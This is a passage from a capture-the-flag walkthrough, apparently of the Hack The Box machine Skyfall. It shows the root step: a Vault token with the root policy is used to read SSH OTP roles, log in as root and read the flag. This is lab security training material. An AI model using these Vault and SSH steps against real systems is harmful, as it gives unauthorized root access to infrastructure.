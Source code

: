 It has the `root` policy! That’s promising.

#### SSH

There’s a bunch of enumeration I could do, but I’ll remember there were two SSH roles:

```

oxdf@hacky$ vault list ssh/roles
Keys
----
admin_otp_key_role
dev_otp_key_role

```

This token can read the roles:

```

oxdf@hacky$ vault read ssh/roles/admin_otp_key_role
Key                  Value
---                  -----
allowed_users        root
cidr_list            10.0.0.0/8
default_user         nobody
exclude_cidr_list    n/a
key_type             otp
port                 22

```

The user allowed is root. I’ll SSH:

```

oxdf@hacky$ vault ssh -role admin_otp_key_role -mode otp root@skyfall.htb
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-101-generic x86_64)
...[snip]...
root@skyfall:~#

```

And grab the flag:

```

root@skyfall:~# cat root.txt
27c61477************************

```
